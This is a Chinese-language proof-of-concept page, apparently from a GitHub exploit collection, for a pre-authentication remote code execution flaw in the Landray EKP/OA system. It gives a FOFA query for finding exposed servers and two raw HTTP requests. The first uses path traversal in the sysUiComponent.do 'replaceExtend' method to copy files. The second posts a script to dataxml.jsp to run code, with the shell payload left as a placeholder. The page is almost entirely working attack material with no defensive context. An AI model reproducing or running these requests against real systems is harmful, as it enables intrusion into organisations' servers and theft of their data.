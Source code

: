 # 蓝凌KEP前台RCE漏洞

## fofa

```
app="Landray-OA系统"
```

## poc

copy文件

```yaml
POST /sys/ui/sys_ui_component/sysUiComponent.do HTTP/1.1
Host: xx.xx.xx.xx
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Length: 401
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryL7ILSpOdIhIIvL51
Origin: http://www.baidu.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
X-Requested-With: XMLHttpRequest

------WebKitFormBoundaryL7ILSpOdIhIIvL51
Content-Disposition: form-data; name="method"

replaceExtend
------WebKitFormBoundaryL7ILSpOdIhIIvL51
Content-Disposition: form-data; name="extendId"

../../../../resource/help/km/review/
------WebKitFormBoundaryL7ILSpOdIhIIvL51
Content-Disposition: form-data; name="folderName"

../../../ekp/sys/common
------WebKitFormBoundaryL7ILSpOdIhIIvL51--
```

![image-20240715104927859](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407152016346.png)

上传文件

```yaml
POST /resource/help/kms/knowledge/dataxml.jsp HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Connection: close
Content-Length: 17392
Content-Type: application/x-www-form-urlencoded

s_bean=ruleFormulaValidate&script=shell&returnType=int&modelName=test
```

![image-20240715105030627](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407152016000.png)